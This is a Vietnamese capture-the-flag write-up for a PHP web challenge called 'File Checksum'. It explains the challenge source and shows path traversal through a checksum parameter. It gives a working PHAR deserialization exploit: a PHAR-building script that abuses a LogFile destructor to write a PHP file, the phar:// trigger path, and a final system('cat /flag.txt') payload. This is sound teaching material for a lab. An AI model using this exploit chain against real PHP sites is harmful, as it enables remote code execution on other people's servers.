







# PHP - Deserialization

**Tên challenge:**  File Checksum

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/file-checksum)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Read the /flag.txt

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta được cung cấp Source Code và trang Web có 1 chức năng Upload file như sau:
	


**B2:** Ta thử Upload 1 file `test.txt` có nội dung là `test`



**B3:** Ta thử click vào đường dẫn `checksum.php?file=uploads/67440342c6e56_test.txt` thì nhận được kết quả Hash của file `test.txt` như sau:



Ta thử thay đổi parameter `file` thành `/etc/passwd` để xem sao:



=> Xem ra ta có thể truyền tham số là đường dẫn vào parameter `file` chỉ cần file đó có tồn tại.

**B4:** Ta bắt lại gói tin POST trong Burpsuite rồi thử chèn nội dung `<?php phpinfo(); ?>` vào file ảnh vừa đăng , đồng thời đổi đuổi file thành `.php`.

Trang Web trả về dòng text:
```
File type not allowed!
```

**B5:** Ta thử nghiên cứu `Source Code` mà Challenge cung cấp:
1. File `upload.php`:
```
<?php
$uploadDir = 'uploads/';
if (!is_dir($uploadDir)) {
    mkdir($uploadDir, 0777, true);
}

if (isset($_FILES['file']) && $_FILES['file']['error'] === UPLOAD_ERR_OK) {
    $fileName = basename($_FILES['file']['name']);
    $filePath = $uploadDir . uniqid() . "_" . $fileName;

    $fileExtension = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));
    $disallowedExtensions = ['php', 'php5', 'php6', 'php7', 'php8'];

    if (in_array($fileExtension, $disallowedExtensions)) {
        echo "File type not allowed!";
        exit;
    }

    if (move_uploaded_file($_FILES['file']['tmp_name'], $filePath)) {
        echo "File uploaded successfully! <br>";
        echo "Link to checksum: <a href='checksum.php?file=" . urlencode($filePath) . "'>checksum.php?file=" . htmlspecialchars($filePath) . "</a>";
    } else {
        echo "File upload failed!";
    }
} else {
    echo "No file uploaded or there was an upload error.";
}
?>
```
**Giải thích code:** File trên có nhiệm vụ xử lý chức năng Upload, nó chặn hết những đuôi file có thể kích hoạt code **PHP**. Ngoài ra, thì nó cũng sẽ tạo ra 1 chuỗi id ngẫu nhiên kết hợp với tên file input của người dùng và lưu vào thư mục `uploads`.
* Điểm đáng lưu ý ở file code này là thư mục Uploads được set quyền `0777`.

2. File `checksum.php`:
```
<?php
include 'logging.php';

if (isset($_GET['file'])) {
    $filePath = $_GET['file'];
    if (file_exists($filePath)) {
        $md5Checksum = md5_file($filePath);
        echo "MD5 Checksum of file: " . htmlspecialchars($filePath) . "<br>";
        echo "MD5: " . $md5Checksum;
        $log = new LogFile();
        $log->filename = 'checksum.log';
        $log->fcontents = "File: " . $filePath . " | MD5: " . $md5Checksum;
    } else {
        echo "File does not exist.";
    }
} else {
    echo "No file specified.";
}
?>
```
**Giải thích code:** File trên nhận vào parameter `file` với giá trị của `file` là đường dẫn đến 1 file cụ thể nào đó và kiểm tra đường dẫn file đó có tồn tại hay không thông qua hàm `file_exists`, nếu đường dẫn file đó có tồn tại thì nó sẽ trả về giá trị Hash của file đó thông qua hàm `md5_file`, rồi ghi nội dung bao gồm `tên file + giá trị hash của file` vào file `checksum.log`.

3. File `logging.php`:
```
<?php
class LogFile {
    public $filename;
    public $fcontents;

    public function writeToFile() {
        if (!empty($this->filename) && !empty($this->fcontents)) {
            file_put_contents($this->filename, $this->fcontents . PHP_EOL, FILE_APPEND);
        }
    }

    public function __destruct() {
        $this->writeToFile();
    }
}
?>
```
**Giải thích code:** File này là dùng để khai báo Class LogFile, có tác dụng là ghi nội dung vào file cụ thể khi được gọi.

4. File `info.php:`
```
<?php
phpinfo();
```
**Giải thích code:** File có tác dụng trả về `phpinfo()`

**Câu hỏi ở đây là:** Vậy thì ta phải làm sao mới có thể đọc được file `/flag.txt` khi ta không thể Upload 1 file có thể thực thi code PHP và điểm sáng duy nhất nằm ở parameter `file` ở file `checksum.php` thì chỉ lại về giá trị Hash chứ không phải là nội dung `file` mà mình muốn đọc.

* **Trả lời:** Sau khi đi tìm hiểu về các tài liệu trên mạng thì tôi đã tìm ra kỹ thuật có thể hỗ trợ RCE challenge này và kỹ thuật đó là: [PHAR Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#phar-deserialization)

Kỹ thuật này không hoạt động trên phiên bản PHP 8+, do `Deserialization` đã bị xoá bỏ. Nhưng may mắn là khi xem qua trang `info.php` thì ta biết được PHP này ở version `7.2.34`

Về cơ bản thì bạn có thể hiểu file `.phar` là 1 file đã được serialize, và khi file này được gọi đến thông qua cú pháp `phar://` trong các hàm có chức năng đọc file thì nó sẽ được deserialize.

* Điều hay nhất về đặc điểm này là quá trình deserialize này sẽ xảy ra ngay cả khi sử dụng các hàm PHP như `file_get_contents()`, `fopen()`, `file()`, `file_exists()` hoặc `md5_file`,...

* Vì vậy, hãy tưởng tượng một tình huống trong đó bạn có thể làm cho một trang web PHP thực thi một file `PHAR` tùy ý do ta tải lên và thông qua giao thức 
`phar://` của Website đến đường dẫn file `PHAR` mà ta tải lên thì nó sẽ thực thi code bên trong file đó.

Tuy nhiên, ở Challenge này thì parameter `file` của đường dẫn `checksum.php` chỉ trả về kết quả là Hash của `file` nên cho dù code `.phar` của ta có được thực thi thì nó cũng sẽ không in ra kết quả Command cho ta thấy. Vì vậy, ở Challenge này ta sẽ cần tới 1 `Class` có 1 magic method được khai báo.

**VD:** Challenge có 1 file khai báo Class như sau:
```
class LogFile {
    public $filename;
    public $fcontents;

    public function writeToFile() {
        if (!empty($this->filename) && !empty($this->fcontents)) {
            file_put_contents($this->filename, $this->fcontents . PHP_EOL, FILE_APPEND);
        }
    }

    public function __destruct() {
        $this->writeToFile();
    }
}
```
=> Ta có thể tận dụng file Class trên và tạo 1 file PHAR thông qua code sau:
```
<?php
// create new Phar
$phar = new Phar('deser.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

// add object of any class as meta data
class LogFile {
    public $filename;
    public $fcontents;

    public function writeToFile() {
        if (!empty($this->filename) && !empty($this->fcontents)) {
            file_put_contents($this->filename, $this->fcontents . PHP_EOL, FILE_APPEND);
        }
    }

    public function __destruct() {
        $this->writeToFile();
    }
}
$object = new LogFile();
$object->filename = '/www/uploads/abc.php';
$object->fcontents = "<?php phpinfo() ?>";
$phar->setMetadata($object);
$phar->stopBuffering();
?>
```
Cụ thể, file trên sẽ giúp ta lợi dụng Class LogFile sau khi deserialize file `.phar` của ta để tạo ra 1 file `abc.php` có nội dung là `<?php phpinfo(); ?>` được lưu ở thư mục gốc là `/www` ( Bạn có thể tìm thấy thông tin này ở `info.php` ) và lưu ở thư mục `Uploads` ( do thư mục `Uploads` được set quyền là `0777` nên tôi chọn nó vì có toàn quyền thực thi ).

Tiếp theo, ta sẽ compile file `test.php` này thành file `deser.phar`:
```
php --define phar.readonly=0 test.php
```

**B6:** Ta Upload file `deser.phar` lên trên Website



Ta lưu lại đường dẫn tới file `PHAR` của ta:
```
uploads/67440cc15d70a_deser.phar
```

**B7:** Ta qua endpoint `checksum.php` rồi thay giá trị của parameter `file` thành:
```
phar:///www/uploads/67440cc15d70a_deser.phar/test.txt
```



=> Vậy là Web đã Deserialize file `.phar` của ta

**B8:** Ta kiểm tra đường dẫn `/uploads/abc.php` để xem liệu file có được khởi tạo trong quá trình Website deserialize file `.phar` của ta không:



=> Ta đã thành công RCE trang Web.

Tiếp theo, ta chỉ cần sửa payload thành `system("cat /flag.txt")` trong file tạo file `.phar` và làm giống như trên là ta sẽ thu được `Flag`.